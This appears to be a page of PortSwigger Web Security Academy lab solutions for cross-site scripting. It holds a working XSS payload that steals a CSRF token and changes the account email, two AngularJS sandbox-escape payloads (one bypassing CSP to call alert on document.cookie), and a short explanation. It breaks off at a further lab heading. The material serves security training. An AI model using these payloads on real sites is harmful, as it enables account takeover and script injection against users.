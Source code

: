 # Lab: Exploiting XSS to bypass CSRF defenses

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

# Lab: Reflected XSS with AngularJS sandbox escape without strings

```
/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=123
```


# Lab: Reflected XSS with AngularJS sandbox escape and CSP

```html
<!--
	Exploit Server Body
-->
<script>
document.location='https://0a0200ca0454274f80a1ad67007500bc.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

The exploit uses the `ng-focus` event in AngularJS to create a focus event that bypasses CSP. It also uses `$event`, which is an AngularJS variable that references the event object. The `path` property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the `window` object.

Normally, `|` is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the `orderBy` filter. The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the `alert` function directly, we assign it to the variable `z`. The function will only be called when the `orderBy` operation reaches the `window` object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the `window` object, effectively bypassing AngularJS's `window` check.


# Lab: Reflected XSS with event handlers and `href` attributes blocked
